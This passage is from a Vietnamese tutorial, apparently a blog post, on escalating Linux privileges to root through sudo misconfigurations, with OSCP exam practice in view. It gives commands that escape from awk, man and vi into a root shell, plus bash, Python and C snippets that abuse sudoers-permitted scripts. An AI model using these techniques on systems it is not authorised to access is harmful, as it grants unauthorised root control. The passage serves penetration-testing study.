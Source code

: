 sudo awk 'BEGIN {system("/bin/bash")}'
```
![](https://images.viblo.asia/60f5894f-5953-421d-b4f8-e5ac287e0bc4.png)

#### 3.2.5 Using Man Command
```
/usr/bin/man
```
Command:
```
sudo man man
```
Tương tự với Less comand, thêm **!bash**, ấn Enter và có root:

![](https://images.viblo.asia/5c8fa8c1-3d13-429d-addb-9483d262315f.png)

#### 3.2.6 Using vim
```
/usr/bin/vi
```
Command:
```
sudo vi
```
Lần này hơi khác chút, thêm **:bash!**, ấn enter và có root:

![](https://images.viblo.asia/4b5da6ed-930b-400c-bebf-b2863cadf2c2.png)

### 3.3 Khi đặc quyền root được  gán cho Shell Script
Đây cũng là một dạng thường thấy trong các bài thi OSCP, khi trong sudoers file được config để người dùng có thể thực thi 1 script file xác định (có thể được viết bằng Python, bash, PHP, C...) kiểu như:
```
nghia ALL= (root) NOPASSWD: /home/nghia/root.sh, /home/nghia/root.py, /home/nghia/shell
```

#### 3.3.1 Executing Bash script
Command:
```
echo "/bin/bash -i" >> filename.sh     (nếu trong script chưa có sẵn)
sudo ./filename.sh
```
![](https://images.viblo.asia/7be5e1fd-1208-4c5f-bf52-8b4cbe449afa.png)
#### 3.3.2 Executing Python script
Script:
```
#! /usr/bin/python

print "Cái gì cũng được, mà không có cũng được"
import os
os.system("/bin/bash")
```
![](https://images.viblo.asia/80c27ae6-eaa2-4194-a9e1-f069073118e1.png)
#### 3.3.3 Executing C script
Script trong **root.c** :
```
int main(void)
{
            system("/bin/bash");
}
```
Và Command:
```
gcc root.c -o shell
chmod 777 shell
sudo ./shell
```
![](https://images.viblo.asia/1839ea49-8aa3-40cc-afae-a52704e0692e.png)
```